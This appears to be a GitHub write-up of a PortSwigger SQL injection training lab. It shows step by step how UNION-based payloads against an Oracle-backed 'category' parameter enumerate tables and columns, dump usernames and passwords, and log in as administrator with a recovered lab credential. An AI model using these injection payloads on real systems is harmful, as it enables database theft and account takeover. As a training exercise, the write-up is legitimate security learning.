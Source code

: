 ## Welcome, my friend. Today we will start the [8. SQLLI lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/3f3d45b8-1cfe-4b25-8db1-493005642d00)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/42e6ca66-1442-4886-a50e-729eafe615a8)


### We discover this page and find category paramater   ```/filter?category=``` :
![image](https://github.com/user-attachments/assets/53f6a62a-8140-461a-823a-13e15cc0e53f)

### Let's test and inject this param:

```
filter?category=' UNION SELECT NULL FROM dual--
```
![image](https://github.com/user-attachments/assets/b32b6c44-bd80-4e6c-9274-250765911f5c)


### Ok, no there one value , Let's go guess 2 value:

```
filter?category=' UNION SELECT NULL,NULL FROM dual--
```

![image](https://github.com/user-attachments/assets/b6928402-c2d8-43c7-b475-11de3324313c)

### Wow, We discover this page and find category paramater   ```/filter?category=``` Is vulnerablity and inject this payload for gathering all tables:

```
filter?category=' UNION SELECT NULL,table_name+FROM+all_tables--
```

![image](https://github.com/user-attachments/assets/4db967d6-49b4-4e50-b0d1-b6b832df1f90)

### We find important table ```USERS_PHTGGH```:

![image](https://github.com/user-attachments/assets/550a1620-7636-42b4-a14e-57c15a0bc965)

### Now, We will discover columns in this table through this payload:

```
filter?category='+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_PHTGGH'--
```

![image](https://github.com/user-attachments/assets/ac662f43-622c-4cb6-964f-bbd5232ee161)

#### Now dump all columns in this table throught this payload:

```
filter?category=' UNION SELECT USERNAME_SIAUBV,PASSWORD_IAOZXP FROM USERS_PHTGGH--
```

![image](https://github.com/user-attachments/assets/eaef5f4b-f76b-4aac-ad13-89e4a540391b)

## OR

```
filter?category=' UNION SELECT NULL,USERNAME_SIAUBV||':'||PASSWORD_IAOZXP FROM USERS_PHTGGH--
```

![image](https://github.com/user-attachments/assets/f60b90b2-d578-4944-bd6b-abcaa37057e6)


### WOW! We got on ```administrator account``` Let's login:

```
administrator:g07noytb72s5samwagu6
```


![image](https://github.com/user-attachments/assets/bbd8ee3f-6cb7-423f-887c-13243429ea19)



### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
